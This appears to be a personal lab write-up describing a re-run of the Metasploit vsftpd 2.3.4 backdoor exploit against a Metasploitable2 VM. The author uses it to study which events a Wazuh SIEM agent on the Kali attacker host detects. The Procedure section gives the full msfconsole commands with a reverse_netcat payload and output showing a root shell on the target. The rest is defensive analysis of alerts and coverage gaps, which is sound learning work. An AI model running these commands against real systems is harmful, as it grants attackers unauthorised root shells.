


# 04 — Red Team vs Blue Team: Exploit with Wazuh Active

## Category
Blue Team / SIEM / Alert / Red Team Integration

## Objective
Re-launch a known exploit (vsftpd 2.3.4 backdoor) with the Wazuh
Agent active on Kali, observe alerts generated in the dashboard
and understand what the SIEM sees from the attacker side.

## Environment

| Role | VM | IP | Wazuh |
|---|---|---|---|
| Attacker | Kali Linux | 10.10.10.100 | Agent active ✅ |
| Target | Metasploitable2 | 10.10.10.101 | No agent |
| SIEM | Ubuntu BlueTeam | 10.10.10.105 | Manager + Dashboard |

## Prerequisites

- Wazuh Agent on Kali: `active (running)` ✅
- Filebeat on Ubuntu: `active (running)` ✅
- Dashboard reachable: `https://10.10.10.105` ✅

## Procedure

### Exploit — vsftpd 2.3.4 Backdoor from Kali

```bash
msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.101
set LHOST 10.10.10.100
set PAYLOAD cmd/unix/reverse_netcat
run
```

Output:
```
[*] Started reverse TCP handler on 10.10.10.100:4444
[+] 10.10.10.101:21 - Backdoor has been spawned!
[*] Command shell session 1 opened (10.10.10.100:4444 → 10.10.10.101:53478)

whoami   → root
id       → uid=0(root) gid=0(root)
uname -a → Linux metasploitable 2.6.24-16-server i686
```



## Results in Wazuh Dashboard

**Path:** Endpoints → kali-attacker → Threat Hunting

| Metric | Value |
|---|---|
| **Total events** | **213** |
| Level 12+ alerts | 0 |
| Authentication failures | 0 |
| Authentication successes | 5 |



### Top 5 Alerts Detected on Kali

| Alert | Category | Meaning |
|---|---|---|
| Host-based anomaly detection | ossec | Anomalous behavior detected |
| PAM: Login session opened | pam | Session opened on Kali |
| PAM: Login session closed | pam | Session closed on Kali |
| Successful sudo to ROOT | sudo | sudo command executed as root |
| CIS Distribution Independent | sca | Security benchmark |

### Top 5 Rule Groups

`sca` · `syslog` · `pam` · `ossec` · `rootcheck`

## Analysis — What Wazuh Sees on Kali

| Activity | Wazuh sees it? | Why |
|---|---|---|
| Metasploit process started | ✅ | Monitors system processes |
| `sudo` command executed | ✅ | PAM/syslog rule |
| Port 4444 listening (netcat) | ⚠️ | Depends on active rules |
| TCP connection → Meta:21 | ⚠️ | Not monitored by default |
| Root shell **on Metasploitable** | ❌ | It is on machine without agent |

**Key conclusion:** Wazuh on Kali sees the **system activity
on Kali** — processes, login, sudo, files. It does not directly see
network traffic nor what happens on the target machine.

## Current Limitation and Next Step

Complete attack visibility is obtained by installing the agent
also on the victim:

```
With agent on Meta:
Kali launches exploit → Metasploitable receives connection
	                      ↓
		            Wazuh sees: FTP port contacted, shell
		            spawned, root commands executed, files accessed
	                      ↓
		            Dashboard: HIGH/CRITICAL alerts
```

Next step (3B) is to install the agent on Metasploitable —
if compatible with Ubuntu 8.04 — to close this loop.

## Snapshot
No additional snapshot — exploit already documented in
`red-team/02-metasploit-vsftpd-backdoor.md`.

## Lessons Learned
- 213 events in a few minutes: Wazuh continuously collects
  system activity, not only during exploits
- Most alerts on Kali are "normal" (PAM, sudo,
  SCA) — not directly related to the vsftpd exploit
- To see the attack from the victim's perspective, the agent is needed
  also on the target — real Blue Team monitors servers, not attackers
- Filebeat is the critical component often forgotten: without it
  the entire Manager → Indexer → Dashboard pipeline breaks
- SIEM is as effective as agent coverage:
  the more systems it monitors, the more complete the visibility
